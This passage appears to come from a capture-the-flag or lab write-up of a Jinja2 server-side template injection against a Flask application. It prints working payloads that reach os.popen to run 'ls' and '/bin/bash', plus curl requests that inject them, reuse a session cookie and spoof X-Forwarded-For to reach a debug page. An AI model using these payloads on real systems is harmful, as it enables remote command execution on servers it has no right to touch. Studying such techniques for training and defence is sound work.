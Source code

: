     self.__init__.__globals__.__builtins__.__import__("os").popen("ls").read()

it accesses the Python os module through the template environment and executes the ls command on the server and reads its output. 'hello' → object → subclasses → sys → os

    >> 'hello'.__class__.__base__.__subclasses__()[144].__init__.__globals__['sys'].modules['os'].popen('/bin/bash').read() 

When rendered by Flask’s `render_template_string`, this returns the list of files in the current directory.

Jinja doesn’t allow direct imports like os, so a dynamic path is needed to reach it. By exploring Python’s object hierarchy, it is possible to find objects that already reference modules such as sys. In this case,

    'hello'.__class__.__base__.__subclasses__()[144]

(a warning-related class) contains a reference to sys, which then provides access to os.

Next, a valid session cookie is retrieved using the command above.
```
$ curl 'http://<target ip>:7777?debug=\{\{+self.__init__.__globals__.__builtins__.__import__("os").popen("ls").read()+\}\}&password=AyhamDeebugg' -I
HTTP/1.1 200 OK
Server: Werkzeug/2.3.4 Python/3.11.0
Date: Thu, 11 Sep 2025 13:06:14 GMT
Content-Type: text/html; charset=utf-8
Content-Length: 2024
Vary: Cookie
Set-Cookie: session=.eJxdzdEKwyAMheFXkcBoC6O0DMbYswREpy1CpqItHYjvvtjd7ebwfxBIAWP1vsITShHZ0jJK6bzbpORYKWhF-Wy9O9qc_8G9Y0h80yOEjDCMMUTrWXQqWWX6QdQKV4gq5yMkwx90JxA_0_Q3F975hZiabg2PVvdWtoP6BR8XNrM.aMLJRg.CxOuQOAaCgSq1wV8M6jUEvZgMis; HttpOnly; Path=/
Connection: close
```
Next, cpoy session cookie and paste into the payload.

```
$ curl 'http://<target ip>:7777/debugresult' -H 'X-Forwarded-For: 127.0.0.1' -b 'session=.eJxdzdEKwyAMheFXkcBoC6O0DMbYswREpy1CpqItHYjvvtjd7ebwfxBIAWP1vsITShHZ0jJK6bzbpORYKWhF-Wy9O9qc_8G9Y0h80yOEjDCMMUTrWXQqWWX6QdQKV4gq5yMkwx90JxA_0_Q3F975hZiabg2PVvdWtoP6BR8XNrM.aMLJRg.CxOuQOAaCgSq1wV8M6jUEvZgMis'
<body>

    <div class="main">
        <h1 class="title">Debugging Results</h1>
<pre>
<code>

┌──(ayham㉿AM-Kali)-[~]
└─$ debugging
<span class="result">__pycache__
cloud
debugpassword.py
ip.py
source.py
static
supersecrettip.txt
templates
</span>

</code>
</pre>

</body>
```
